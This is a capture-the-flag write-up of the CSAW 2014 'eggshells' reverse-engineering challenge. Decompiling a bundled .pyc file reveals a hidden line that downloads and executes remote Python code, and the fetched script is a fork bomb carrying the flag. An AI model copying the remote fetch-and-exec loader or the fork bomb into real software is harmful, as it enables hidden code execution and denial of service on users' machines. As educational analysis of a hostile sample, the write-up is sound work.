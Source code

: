 # CSAW CTF 2014: eggshells

**Category:** Reverse Engineering
**Points:** 100
**Description:**

> I trust people on the internet all the time, do you?
>
> Written by ColdHeat
>
> [eggshells-master.zip](eggshells-master.zip)

## Write-up

Let’s unzip [the provided zip file](eggshells-master.zip):

```bash
$ unzip eggshells-master.zip
```

This creates a directory `eggshells-master` that contains a bunch of Python files. One compiled Python file, `utils.pyc`, stands out. Let’s decompile it using [`uncompyle2`](https://github.com/wibiti/uncompyle2):

```bash
$ uncompyle2 utils.pyc
# 2014.09.22 10:53:48 CEST
#Embedded file name: /Users/kchung/Desktop/CSAW Quals 2014/rev100/utils.py
exec __import__('urllib2').urlopen('http://kchung.co/lol.py').read()
+++ okay decompyling utils.pyc
# decompiled 1 files: 1 okay, 0 failed, 0 verify failed
# 2014.09.22 10:53:48 CEST
```

That URL looks interesting.

```bash
$ curl 'http://kchung.co/lol.py'
import os
while True:
    try:
        os.fork()
    except:
        os.system('start')
# flag{trust_is_risky}
```

The flag is `trust_is_risky`.

## Other write-ups

* <http://www.mrt-prodz.com/blog/view/2014/09/csaw-ctf-quals-2014---eggshells-100pts-writeup>
* <http://bt3gl.github.io/csaw-ctf-2014-reverse-engineering-100-eggshells.html>
